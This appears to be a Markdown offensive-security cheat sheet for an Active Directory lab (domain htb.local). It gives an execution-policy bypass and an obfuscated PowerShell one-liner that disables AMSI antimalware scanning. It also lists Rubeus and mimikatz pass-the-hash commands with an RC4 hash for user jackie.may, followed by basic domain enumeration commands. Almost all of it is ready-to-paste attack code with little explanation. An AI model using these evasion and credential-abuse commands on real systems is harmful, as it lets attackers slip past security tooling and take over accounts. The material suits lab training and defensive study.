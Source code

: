 
## Bypassing

#### **Bypass Execution Policy**

```ps
powershell -ep bypass
```

#### **Bypass AMSI**

```ps
**S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )**
```


#### **Run a utility as another user**

```cmd
# Run a utility as another user
runas /netonly /user:htb.local\jackie.may powershell

# Run an utility as another user with rubeus. Passing clear text credentials
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94

# Run an utility as another user with mimikatz.exe. Passing clear text credentials
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94

```


## Enumeration

Basic reconnaissance: Who I am, where I am and what permissions I have.

```ps 
whoami
hostname
net localgroup administrators

# View a user's current rights
whoami /priv
```


A basic AD user account with no added privileges can be used to enumerate the majority of objects contained within AD, including but not limited to:

### **1.** Domain Computers

```ps
# Use ADSI to search for all computers
([adsisearcher]"(&(objectClass=Computer))").FindAll()

#Query for installed software
get-ciminstance win32_product \| fl
```

